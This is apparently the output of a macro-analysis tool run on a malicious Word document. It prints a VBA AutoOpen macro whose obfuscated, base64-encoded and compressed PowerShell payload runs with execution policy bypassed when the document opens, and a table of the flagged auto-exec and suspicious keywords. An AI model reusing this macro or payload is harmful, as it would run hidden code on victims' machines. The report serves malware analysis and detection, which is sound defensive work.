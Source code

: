 ```
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Obj                                                                    ect; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Con                                                                    vert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/                                                                    1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdf                                                                    eHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zski                                                                    LPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+                                                                    JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.                                                                    Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"                                                                    " "
Shell cmd
End Sub

-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word/vbaProject.bin - OLE stream: u'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub AutoOpen()
Dim cmd As String
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Obj                                                                    ect; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Con                                                                    vert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/                                                                    1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdf                                                                    eHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zski                                                                    LPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+                                                                    JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.                                                                    Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"                                                                    " "
Shell cmd
End Sub

+------------+-----------------+-----------------------------------------+
| Type       | Keyword         | Description                             |
+------------+-----------------+-----------------------------------------+
| AutoExec   | AutoOpen        | Runs when the Word document is opened   |
| AutoExec   | Document_Open   | Runs when the Word or Publisher         |
|            |                 | document is opened                      |
| Suspicious | Shell           | May run an executable file or a system  |
|            |                 | command                                 |
| Suspicious | powershell      | May run PowerShell commands             |
| Suspicious | ExecutionPolicy | May run PowerShell commands             |
| Suspicious | New-Object      | May create an OLE object using          |
|            |                 | PowerShell                              |
| IOC        | powershell.exe  | Executable file name                    |
+------------+-----------------+-----------------------------------------+
```
